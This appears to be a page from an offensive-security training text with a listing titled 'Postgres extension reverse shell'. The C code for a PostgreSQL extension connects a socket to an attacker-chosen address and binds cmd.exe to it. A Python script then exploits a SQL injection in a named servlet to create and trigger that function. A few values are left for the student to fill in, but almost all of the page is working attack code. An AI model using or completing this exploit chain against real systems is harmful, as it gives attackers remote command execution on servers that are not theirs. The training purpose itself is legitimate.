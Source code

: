 ```
  DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

	WSAStartup(MAKEWORD(2, 2), &wsaData);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

	hax.sin_family = AF_INET;
	/* FIX THIS */
	hax.sin_port = XXXXXXXXXXXXX
	/* FIX THIS TOO*/
	hax.sin_addr.s_addr = XXXXXXXXXXXXXXX

	WSAConnect(s1, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

	memset(&sui, 0, sizeof(sui));
	sui.cb = sizeof(sui);
	sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE)s1;

	CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
	PG_RETURN_VOID();
}
```

> Listing 51 - Postgres extension reverse shell

Make sure that you fix the highlighted lines of code before you compile the code from the listing above.

Once you have done so, you can use the following Python script to send your payload to the vulnerable server:

```
import requests, sys
requests.packages.urllib3.disable_warnings()

def log(msg):
   print msg

def make_request(url, sql):
   log("[*] Executing query: %s" % sql[0:80])
   r = requests.get( url % sql, verify=False)
   return r

def create_udf_func(url):
   log("[+] Creating function...")
   sql = "--------FIX ME--------"
   make_request(url, sql)

def trigger_udf(url, ip, port):
   log("[+] Launching reverse shell...")
   sql = "select rev_shell($$%s$$, %d)" % (ip, int(port))
   make_request(url, sql)
   
if __name__ == '__main__':
   try:
       server = sys.argv[1].strip()
       attacker = sys.argv[2].strip()
       port = sys.argv[3].strip()
   except IndexError:
       print "[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0]
       sys.exit()
       
   sqli_url  = "https://"+server+"/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--" 
```